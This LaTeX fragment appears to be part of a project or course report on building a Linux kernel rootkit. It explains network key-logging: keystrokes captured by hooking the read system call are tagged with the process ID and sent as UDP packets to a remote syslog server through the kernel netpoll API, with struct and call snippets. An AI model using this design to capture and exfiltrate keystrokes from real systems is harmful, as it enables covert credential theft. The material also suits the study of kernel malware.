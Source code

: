 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
TODO: gmc: add details about removing kernfs\_node. 

\subsection{Network key-logging}
We had the local key-logging already enabled in our root-kit by hooking \texttt{read} system call. 
We just had to send this keys to \texttt{syslog-ng} server, using syslog protocol. 
These packets can be sent using \texttt{UDP} packets using \texttt{netpoll} kernel API. 
The \texttt{netpoll.h} provides the mechanism for sending UDP packets to a remote host. 
Only one constraint in netpoll is that, the destination port has to be a ethernet port. 

Todo this job, we need to first initialize the netpoll structure with IP address, port number etc. 
before using it to send the keys. 
The \texttt{netpoll} structure looks like this, 

\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member
. 
\end{document}
